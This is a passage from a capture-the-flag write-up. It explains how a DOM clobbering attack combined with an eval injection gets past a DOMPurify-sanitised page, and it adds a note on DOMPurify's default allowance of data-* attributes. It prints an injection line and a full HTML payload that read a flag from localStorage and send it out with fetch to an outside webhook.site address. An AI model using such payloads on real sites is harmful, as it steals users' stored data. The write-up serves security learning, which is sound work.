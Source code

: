Now all I needed to do was update the `data-helo` value to break out of the `console.log` in the `eval` and run arbitrary code to exfiltrate the flag:

```js
console.log('Old value: null', 'New Value: '); fetch(`https://webhook.site/a4657150-2529-49e3-b51c-1091d4ec3977?${localStorage.getItem('flag')}`); ('')
```

Here is my final DOM clobbering payload, which retrieves the flag from local storage and exfiltrates it via a webhook:

```html
<a id="custom_elements"></a><a id="custom_elements" name="enabled" href="true"></a>
<a id="custom_elements"></a><a id="custom_elements" name="endpoint" href="https://webhook.site/a4657150-2529-49e3-b51c-1091d4ec3977"></a>
<div is="invalid-value" data-helo="'); fetch(`https://webhook.site/a4657150-2529-49e3-b51c-1091d4ec3977?${localStorage.getItem('flag')}`); ('"/>
```

```
TFCCTF{t0_1s_0r_n0t_to_1s}
```

## Notes

Interestingly, DOMPurify allowed the `data-helo` attribute, even though it wasn’t explicitly listed in `ALLOWED_ATTR`.

This is because DOMPurify allows `data-*` and `aria-*` attributes by default, controlled by the `ALLOW_DATA_ATTR` and `ALLOW_ARIA_ATTR` options.

> `data-*` / `aria-*` attributes are allowed by default and controlled by specifying `ALLOW_DATA_ATTR` / `ALLOW_ARIA_ATTR`.
>
> -- *DOMPurify: [Default TAGs ATTRIBUTEs allow list & blocklist](https://github.com/cure53/DOMPurify/wiki/Default-TAGs-ATTRIBUTEs-allow-list-&-blocklist#html-attributes)*

# References

* Payloads All The Things: [DOM Clobbering](https://swisskyrepo.github.io/PayloadsAllTheThings/DOM%20Clobbering/)
* DOMC: [Payload Generator](https://domclob.xyz/domc_payload_generator/)
